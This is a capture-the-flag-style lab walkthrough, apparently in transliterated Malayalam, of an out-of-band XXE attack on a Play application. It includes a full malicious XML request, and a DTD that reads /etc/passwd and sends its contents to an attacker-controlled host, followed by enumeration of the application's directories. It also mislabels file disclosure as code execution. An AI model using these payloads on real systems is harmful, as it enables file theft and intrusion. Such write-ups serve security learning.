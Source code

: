 -->ini namude kalil il oru webserver open aaki idanam athin python or ruby use chyam
->`python3 -m http.server`
-->ipol 8000 port il default aayi webserver run aakum
-->ini namal request send chyuka ie,
```http
POST /login HTTP/1.1
Host: ptl-0aa43b50-71b3b7af.libcurl.so
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 29
Origin: http://ptl-0aa43b50-71b3b7af.libcurl.so
Connection: close
Referer: http://ptl-0aa43b50-71b3b7af.libcurl.so/login
Upgrade-Insecure-Requests: 1

<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://192.168.18.159:8000/test.dtd">
<foo>&e1;</foo>
```
-->so ingane koduthit send chyuka apol namude terminalil test.dtd fetch chyapedum. namude server il /test.dtd enna file illayirunnit polum fetch chyunund.athukondan status 404 file not found enn kanikunath
-->so ivide SSRF aan nadakunath.ith thane oru valiya vulnerability aan ok
-->athayath server namude webserver umayi aan connect chyunath
-->ini namuk test.dtd enna oru file undakam.enit ivide &e1; ennath il enthengilum parse chyan aayi ee namal undakuna test.dtd file il akanm ok :
```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
%p2;
```
-->so ipol namal test.dtd file undaki ini nerthe pole onnukoodi send chyuka.
-->ipol namuk /etc/passwd terminalil kitum means namuk code execution aayi
-->ini ee passwd list analyse chythal kanam last play enna user athinte path /opt/play-2.1.3  enn so ini namal undakiya dtd file il poit file:///etc/passwd mati file:///opt/play-2.1.3/  ennaki file save chyuka enit pine repeater il ninum send chyuka
-->NOTE : namal ipol kodukunath file aayalum athini directory aayalum namuk oru problem illathe retrieve chyth kitum so no worries
-->ipol send chyth kahzinj namal terminalil nokumbol kanam namauk puthiya info terminalil kidakunund.so avide xxe enna oru path kanam.so ini namal enn chyanamenal nerthe pole dtd file il pokuka enit ee path add chyuka ie, file:///opt/play-2.1.3/xxe/ . enit ini repeater il poi send chyuka
-->ipol namuk kore path kitum :
```http
	.gitignore
	.settings
	app
	conf
	logs
	project
	public
	README
	RUNNING_PID
	target
	test
	HTTP/1.1
```
so ithil namal noki oro pathum koduth send chyuka.so ivide /conf/ enna path aan kodukendath.ie, file:///opt/play-2.1.3/xxe/conf/ 
-->ini repaeter il sedn chyumbol namuk pinem korach path kitum athil /routes aan add chyendath ie, file:///opt/play-2.1.3/xxe/conf/routes/